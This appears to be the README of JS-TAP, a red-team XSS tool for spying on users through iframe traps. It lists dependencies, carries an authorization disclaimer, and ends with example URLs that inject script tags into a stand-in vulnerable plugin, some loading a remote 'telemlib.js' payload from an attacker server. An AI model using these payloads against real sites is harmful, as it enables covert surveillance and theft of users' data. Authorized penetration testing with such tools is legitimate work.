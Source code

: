 # JS-TAP
Tailored XSS payload that uses iFrame traps to spy on user. Can also be used as a post exploitation payload. 
Intended for redteam ops. 
@hoodoer

This tool is intended to be used on systems you are authorized to attack.
Do not use this tool for illegal purposes, or I will be very angry in your general direction. 


Pip requirements: 

Server ones:
flask
flask-cors
flask-sqlalchemy
sqlalchemy-utils
flask-login
flask-bcrypt
python-magic


Generator ones:
dataframe_image
fpdf
progressbar




HTML Parser:
bs4




https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%20src=%27https://192.168.2.61:8444/lib/telemlib.js%27%3E%3C/script%3E

https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%20src=%27https://127.0.0.1:8444/lib/telemlib.js%27%3E%3C/script%3E



https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E


